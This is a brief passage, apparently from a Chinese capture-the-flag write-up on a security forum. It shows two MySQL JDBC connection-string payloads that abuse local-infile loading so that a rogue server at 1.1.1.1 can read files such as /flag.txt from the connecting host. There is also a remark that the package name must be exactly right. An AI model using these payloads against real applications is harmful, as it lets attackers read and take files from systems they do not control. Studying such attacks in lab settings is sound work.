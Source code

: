 这里有一个很重要的东西，就是包名一定要得对(CTFer的痛)

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-eda0d01179a7a21ded9f2a052d3bf1065adc4e3a.png)​

```java
mysql://1.1.1.1:3306/test?user=fileread_file:///.&amp;ALLOWLOADLOCALINFILE=true&amp;maxAllowedPacket=65536&amp;allowUrlInLocalInfile=true#

mysql://1.1.1.1:3306/test?user=fileread_file:///flag.txt&amp;ALLOWLOADLOCALINFILE=true&amp;maxAllowedPacket=65536&amp;allowUrlInLocalInfile=true#
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-84ec215bddbe2bac20f3f0e762ba4540d7480eb2.png)​

‍